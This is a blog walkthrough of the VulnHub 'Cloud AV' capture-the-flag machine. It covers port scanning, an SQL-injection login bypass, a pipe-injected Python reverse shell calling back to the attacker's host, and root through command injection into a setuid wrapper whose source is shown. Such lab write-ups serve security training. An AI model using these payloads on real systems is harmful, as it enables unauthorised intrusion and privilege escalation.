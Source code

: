 ```yaml
---
layout: post
cover: False
cover: ''
title: "[VulnHub] - BoredHackerBlog: Cloud AV - Walkthrough"
date:   2020-04-03 03:18:00
tags: CTF Vulnhub Hacking ITsecurity
categories: 'ctf'
navigation: True
---
```

Hi, here is my solution to get roon on `BoredHackerBlog: Cloud AV` VM, you can download it from [here](https://www.vulnhub.com/entry/boredhackerblog-cloud-av,453/).
`BoredHackerBlog: Cloud AV` is an fun and easy machine that required simple webapp skills in order to get in the server.


`cloudanti="10.10.10.131" `

### NMAP

`nmap` shows only two ports are open on `TCP` which are `22` and `8080` and here is the banner and `HTTP` methods for port `8080` : 
```bash
Supported Methods: HEAD OPTIONS GET
Werkzeug/0.14.1 Python/2.7.15rc1
```
### Port `8080`
```sh
yas3r@linux[~/CTF/CloudAVI]$ curl http://$cloudanti:8080                                                    
<html> 
<body>
<h1>Cloud Anti-Virus Scanner!</h1>
<h2>This is a beta Cloud Anti-Virus Scanner service.</h2>
<h3>Please enter your invite code to start testing</h3>
<form action="/login" method="POST">
  <input type="text" name="password" placeholder="Invite Code">
  <input type="submit" value="Log in">
</form>
</body>
</html>%                                                                                                                                                                                                             yas3r@linux[~/CTF/CloudAVI]$ 
```

### Initial DIR scan

```bash
yas3r@linux[~/CTF/CloudAVI]$ gobuster -w /usr/share/wordlists/SecLists/Discovery/Web-Content/big.txt -u http://$cloudanti:8080 -fw      

=====================================================
Gobuster v2.0.1              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.10.131:8080/
[+] Threads      : 10
[+] Wordlist     : /usr/share/wordlists/SecLists/Discovery/Web-Content/big.txt
[+] Status codes : 200,204,301,302,307,403
[+] Timeout      : 10s
=====================================================
2020/04/03 00:43:07 Starting gobuster
=====================================================
/console (Status: 200)
/scan (Status: 200)
=====================================================
2020/04/03 00:43:22 Finished
=====================================================

```

### SQL Injection
Trying couple of SQL injection payload to get the `errors` - and the code to bypass the invitation code is: `" or "a"="a`

```sh
POST /login HTTP/1.1
Host: 10.10.10.131:8080
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:74.0) Gecko/20100101 Firefox/74.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 20
Origin: http://10.10.10.131:8080
Connection: close
Referer: http://10.10.10.131:8080/
Upgrade-Insecure-Requests: 1

password=" or "a"="a
```

Response:
```sh
HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 74
Vary: Cookie
Set-Cookie: session=eyJsb2dnZWRfaW4iOnRydWV9.XobZzQ.Ii8girHtRHrlsDNy9esq7cdcbP0; HttpOnly; Path=/
Server: Werkzeug/0.14.1 Python/2.7.15+
Date: Fri, 03 Apr 2020 06:38:05 GMT

Redirecting to /scan. <meta http-equiv="refresh" content="0; url=/scan" />
```

### RCE and Reverseshell

On `scan` page, first tried couple of RCE injection payloads but the one that works is `|` by testing to ping my machine and check `tcpdump` on any icmp packets.
Here is the `RCE` that works for me using `python` reverse shell:

```sh
POST /output HTTP/1.1
Host: 10.10.10.131:8080
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:74.0) Gecko/20100101 Firefox/74.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 38
Origin: http://10.10.10.131:8080
Connection: close
Referer: http://10.10.10.131:8080/scan
Cookie: session=eyJsb2dnZWRfaW4iOnRydWV9.XobZ2Q.YnahFyrao7H7zM0q_ZfMrFU7I-A
Upgrade-Insecure-Requests: 1

filename=netcat|python+-c+'import+socket,subprocess,os%3bs%3dsocket.socket(socket.AF_INET,socket.SOCK_STREAM)%3bs.connect(("10.10.10.1",80))%3bos.dup2(s.fileno(),0)%3b+os.dup2(s.fileno(),1)%3bos.dup2(s.fileno(),2)%3bimport+pty%3b+pty.spawn("/bin/bash")'
```

[Reference](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python)

On the other Terminal
```sh
yas3r@linux[~]$ sudo nc -l -p  80
scanner@cloudav:~/cloudav_app$ 
```

```sh
scanner@cloudav:~/cloudav_app$ export TERM=linux
scanner@cloudav:~/cloudav_app$ ls -l
ls -l
total 16
-rw-rw-r-- 1 scanner scanner 1550 Oct 24  2018 app.py
-rw-r--r-- 1 scanner scanner 2048 Oct 21  2018 database.sql
drwxrwxr-x 2 scanner scanner 4096 Oct 21  2018 samples
drwxrwxr-x 2 scanner scanner 4096 Oct 21  2018 templates
scanner@cloudav:~/cloudav_app$ 
```
Found a database file that been used by the webapp using `sqlite3` driver that has couple of invitation codes.

### `databases.sql`
```bash
root@cloudav:/home/scanner/cloudav_app# strings database.sql 
SQLite format 3
itablen<
]tablecodecode
CREATE TABLE `code` (
	`password`	TEXT
/mostsecurescanner
#cloudavtech
1mysecondinvitecode
+myinvitecode123
```

### PrivEsc 

Found a file that has special permissions: `update_cloudav` and by checking the source code of the application, we can see that
it run freshclam to update the database.

```bash
scanner@cloudav:~$ ls -l         
ls -l
total 20
drwxrwxr-x 4 scanner scanner 4096 Oct 24  2018 cloudav_app
-rwsr-xr-x 1 root    scanner 8576 Oct 24  2018 update_cloudav
-rw-rw-r-- 1 scanner scanner  393 Oct 24  2018 update_cloudav.c

loudav_app  update_cloudav  update_cloudav.c
scanner@cloudav:~$ cat *.c   
cat *.c
#include <stdio.h>

int main(int argc, char *argv[])
{
char *freshclam="/usr/bin/freshclam";

if (argc < 2){
printf("This tool lets you update antivirus rules\nPlease supply command line arguments for freshclam\n");
return 1;
}

char *command = malloc(strlen(freshclam) + strlen(argv[1]) + 2);
sprintf(command, "%s %s", freshclam, argv[1]);
setgid(0);
setuid(0);
system(command);
return 0;
}
```

### RCE as `root`
Getting root by injecting `OS command injection`.

```bash
scanner@cloudav:~$ ./update_cloudav
./update_cloudav
This tool lets you update antivirus rules
Please supply command line arguments for freshclam
scanner@cloudav:~$
scanner@cloudav:~$ ./update_cloudav "; /bin/bash"
./update_cloudav "; /bin/bash"
ERROR: /var/log/clamav/freshclam.log is locked by another process
ERROR: Problem with internal logger (UpdateLogFile = /var/log/clamav/freshclam.log).
ERROR: initialize: libfreshclam init failed.
ERROR: Initialization error!
root@cloudav:~#
```

Hope you like it.

@yaserfaraj
